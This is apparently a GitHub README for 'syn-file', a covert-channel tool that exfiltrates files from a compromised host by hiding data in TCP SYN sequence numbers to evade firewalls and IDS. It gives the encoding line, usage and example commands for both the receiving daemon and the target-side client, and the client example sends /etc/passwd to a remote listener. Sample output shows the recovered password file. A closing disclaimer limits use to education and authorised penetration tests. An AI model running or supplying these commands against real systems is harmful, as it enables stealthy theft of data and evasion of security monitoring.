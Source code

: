 # syn-file

Exfiltrate data from a compromised target using covert channels.


## Intro
**syn-file** is a software that allows data exfiltration using TCP SYN sequence number packets.
In that way it is possible to bypass firewalls or IDS as no TCP connection is ever opened... similar to SYN scanning.

To be faster exfiltrating data, a useful codification technique is used. Encoding 4 chars in a integer like this:

```seq= buf[0] << 24 | buf[1] << 16 | buf[2] << 8 | buf[3];```

##Background

There are some tools to deploy covert channels, mainly using ICMP protocol, padding the content in the payload section... suspicious!

However I have not seen any tool to deploy it using TCP sequence numbers, also in **syn-file** the payload is left empty ;-)


##usage / example


###server
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f file.bin
-i interface
-s source ip
-f file to store exfiltrated data
```

Example:
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f passwd
using interface: eth0
libcap rule: "src host 192.168.1.155"
#    1 [SYN=1] [SEQ #= 3a32353a]
#    2 [SYN=1] [SEQ #= 32353a42]
#    3 [SYN=1] [SEQ #= 61746368]
#    4 [SYN=1] [SEQ #= 206a6f62]
#    5 [SYN=1] [SEQ #= 73206461]
#    6 [SYN=1] [SEQ #= 656d6f6e]
#    7 [SYN=1] [SEQ #= 3a2f7661]
#    8 [SYN=1] [SEQ #= 722f7370]
#    9 [SYN=1] [SEQ #= 6f6f6c2f]
#   10 [SYN=1] [SEQ #= 61746a6f]
...
```

And "passwd" recovered is:
```
# cat passwd 
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
avahi:x:481:481:User for Avahi:/run/avahi-daemon:/bin/false
avahi-autoipd:x:493:493:User for Avahi IPv4LL:/var/lib/avahi-autoipd:/bin/false
bin:x:1:1:bin:/bin:/bin/bash
colord:x:483:484:user for colord:/var/lib/colord:/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/bin/bash
dnsmasq:x:486:65534:dnsmasq:/var/lib/empty:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:478:477:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
...
```



###client (target)
```
# ./syn-file -i interface -d dst_ip -f file_to_exfiltrate -p dst_port -P src_port
-i interface
-d destination ip / IP that runs syn-daemon
-f file to exfiltrate
-p destination port
-P source port
```

Example from target machine:
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 
using interface: eth0
#1	 [Read from file "at:x"] [Encoded SEQ nr: 0x61743a78] [Wrote 74 bytes]
#2	 [Read from file ":25:"] [Encoded SEQ nr: 0x3a32353a] [Wrote 74 bytes]
#3	 [Read from file "25:B"] [Encoded SEQ nr: 0x32353a42] [Wrote 74 bytes]
#4	 [Read from file "atch"] [Encoded SEQ nr: 0x61746368] [Wrote 74 bytes]
#5	 [Read from file " job"] [Encoded SEQ nr: 0x206a6f62] [Wrote 74 bytes]
#6	 [Read from file "s da"] [Encoded SEQ nr: 0x73206461] [Wrote 74 bytes]
#7	 [Read from file "emon"] [Encoded SEQ nr: 0x656d6f6e] [Wrote 74 bytes]
#8	 [Read from file ":/va"] [Encoded SEQ nr: 0x3a2f7661] [Wrote 74 bytes]
#9	 [Read from file "r/sp"] [Encoded SEQ nr: 0x722f7370] [Wrote 74 bytes]
#10	 [Read from file "ool/"] [Encoded SEQ nr: 0x6f6f6c2f] [Wrote 74 bytes]
```

##Disclamer
Only use allowed for educational purposes or professionaly during a penetration test given the proper permission.

All rights reserved

(c) 2017 spinfoo

Jacobo Avariento
